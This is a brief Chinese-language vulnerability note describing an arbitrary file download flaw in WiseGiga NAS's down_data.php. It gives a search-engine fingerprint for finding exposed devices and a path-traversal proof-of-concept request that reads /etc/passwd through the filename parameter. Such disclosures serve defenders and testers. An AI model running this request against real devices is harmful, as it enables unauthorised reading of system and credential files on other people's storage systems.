

# WiseGiga NAS down_data.php 任意文件下载漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WISEGIGA NAS down_data.php 存在任意文件下载漏洞，由于 /down_data.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
WiseGiga NAS
```

## 网络测绘

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面


验证POC

```
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

